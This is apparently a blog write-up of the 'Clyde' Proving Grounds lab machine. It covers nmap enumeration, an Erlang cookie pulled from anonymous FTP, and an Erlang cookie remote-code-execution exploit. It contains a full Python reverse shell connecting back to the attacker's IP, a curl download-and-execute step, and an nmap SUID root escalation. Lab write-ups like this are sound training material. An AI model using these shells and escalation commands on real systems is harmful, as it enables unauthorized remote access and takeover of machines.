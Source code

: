 ```yaml
---
layout: post
title: Proving Grounds - Clyde (Hard)
---
```


# Introduction 

This is an Hard Linux box on Proving Grounds.

# Enumeration

Immediately when we begin to enumerate this box we can see a massive amount of data is available to us on an FTP server. It looks like the `/bin/` directory is being served over FTP.

```bash
$ sudo nmap --min-rate 100 -sV -sC -T4  192.168.216.68 -oA nmap/versions                              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 12:13 EDT
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 12:14 (0:00:08 remaining)
Nmap scan report for ip-192-168-216-68.eu-west-1.compute.internal (192.168.216.68)
Host is up (0.022s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 PackageKit
| drwxr-xr-x    5 ftp      ftp          4096 Apr 24  2020 apache2
| drwxr-xr-x    5 ftp      ftp          4096 Sep 21  2020 apt
| drwxr-xr-x    2 ftp      ftp          4096 Apr 22  2020 dbus
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 dhcp
| drwxr-xr-x    7 ftp      ftp          4096 Sep 21  2020 dpkg
| drwxr-xr-x    2 ftp      ftp          4096 Apr 20  2020 git
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 initramfs-tools
| drwxr-xr-x    2 ftp      ftp          4096 May 07  2020 logrotate
| drwxr-xr-x    2 ftp      ftp          4096 Sep 08  2019 misc
| drwxr-xr-x    5 ftp      ftp          4096 Feb 15 10:01 mysql
| drwxr-xr-x    2 ftp      ftp          4096 Jul 13  2017 os-prober
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 pam
| drwxr-xr-x    4 ftp      ftp          4096 Apr 24  2020 php
| drwx------    3 ftp      ftp          4096 Apr 24  2020 polkit-1
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 python
| drwxr-xr-x    3 ftp      ftp          4096 May 08  2020 rabbitmq
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 sgml-base
| drwxr-xr-x    6 ftp      ftp          4096 Apr 22  2020 systemd
| drwxr-xr-x    3 ftp      ftp          4096 Apr 30  2020 ucf
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.49.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 df:63:99:a4:cf:79:00:c8:b1:d6:67:97:81:4d:4f:af (RSA)
|   256 bd:9b:35:41:34:a2:5a:4c:fa:1b:9f:f1:36:f3:6a:fd (ECDSA)
|_  256 db:96:ee:8d:29:2b:f4:a3:58:b2:fb:c1:ac:65:92:48 (ED25519)
53/tcp    closed domain
80/tcp    open   http    Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.25 (Debian)
65000/tcp open   unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.24 seconds
```

Running a further Nmap scan over the full port range we see the RabbitMQ service is running, alongside the Erlang Port Mapper Daemon. On port 15672 the management portal for RabbitMQ is available.

```bash
$ sudo nmap --min-rate 100 -p- -T4  192.168.216.68 -oA nmap/all  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 12:14 EDT
Nmap scan report for ip-192-168-216-68.eu-west-1.compute.internal (192.168.216.68)
Host is up (0.023s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
4369/tcp  open   epmd
15672/tcp open   unknown
65000/tcp open   unknown

PORT      STATE  SERVICE    VERSION
4369/tcp  open   epmd       Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 65000
15672/tcp open   http       Cowboy httpd
|_http-title: RabbitMQ Management
|_http-server-header: Cowboy

```

## Webserver

As mentioned on port 15672 we have RabbitMQ.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426121946.png)

Trying default creds `guest:guest` unfortunately does not work (worth a try!).

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426122049.png)

Since we have anonymous FTP access, we can try pulling the `rabbitmq` directory there to search for any config files. These may contain credentials.

```bash
wget -r ftp://anonymous@192.168.216.68/rabbitmq
```

Searching the strings of rabbitmq data files, I found some possible users `seth` and `clyde`. But bruteforcing is not possible as it appears there is an account lock out feature.

After searching for a long time I found an erlang cookie in the rabbitmq directory (always remember to check for hidden files!)

```bash
┌──(kali㉿pm-kali)-[~/…/provingGrounds/clyde/192.168.216.68/rabbitmq]
└─$ ls -la             
total 16
drwxr-xr-x  3 kali kali 4096 Apr 26 12:23 .
drwxr-xr-x 13 kali kali 4096 Apr 26 12:47 ..
-rw-r--r--  1 kali kali   20 Apr 24  2020 .erlang.cookie
drwxr-xr-x  6 kali kali 4096 Apr 26 12:24 mnesia
                                                                                                                          
┌──(kali㉿pm-kali)-[~/…/provingGrounds/clyde/192.168.216.68/rabbitmq]
└─$ cat .erlang.cookie 
JPCGJCAEWHPKKPBXBYYB
```

This can be used to gain RCE via Erlang Port Mapper Daemon. [49418 - Erlang Cookie - Remote Code Execution](https://www.exploit-db.com/exploits/49418)

# Initial Access

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426132539.png)


This was awkward to get a reverse shell. Had to put a Python revshell for port 21 in a bash script - curl chmod execute, separately.

```bash
$ cat test2.sh                        
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.216",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sending `curl` first:

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
CMD = "curl http://192.168.49.216/test2.sh -o test2.sh"
```

Changing mode and executing separately:

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
CMD = "chmod +x test2.sh; ./test2.sh"
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426134224.png)

Alternately we could've sent the reverse shell on its own and escaped the quotes e.g.

```bash
CMD = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.118.6\",15672));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

# Privilege Escalation

Nmap has a SUID bit set but there is no `sudo` on this box...

Looked around a lot but tried the Limited SUID technique to GTFObins and it does vaguely work. Through this we could probably spawn a full reverse shell. But this is enough to grab the root hash.

```bash
echo 'os.execute("/bin/sh")' > test 
nmap --script=test
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020230119000719.png)
